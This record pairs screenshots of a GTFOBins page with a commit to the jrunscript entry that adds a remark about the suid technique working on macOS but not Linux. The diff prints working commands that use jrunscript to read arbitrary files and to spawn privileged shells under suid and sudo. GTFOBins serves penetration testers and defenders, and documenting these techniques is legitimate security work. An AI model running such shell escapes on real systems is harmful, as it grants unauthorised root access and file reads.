

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/jrunscript.md, in a window 1280 px wide and 900 px high, scrolled down 951 px. Shown: the top 872 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Describe jrunscript suid limitations

```diff
--- a/_gtfobins/jrunscript.md
+++ b/_gtfobins/jrunscript.md
@@ -30,7 +30,8 @@ functions:
     - code: jrunscript -e 'br = new BufferedReader(new java.io.FileReader("file_to_read"));
          while ((line = br.readLine()) != null) { print(line); }'
   suid:
-    - code: ./jrunscript -e "exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)')"
+    - description: This has been found working in macOS but failing on Linux systems.
+      code: ./jrunscript -e "exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)')"
   sudo:
     - code: sudo jrunscript -e "exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)')"
 ---
```
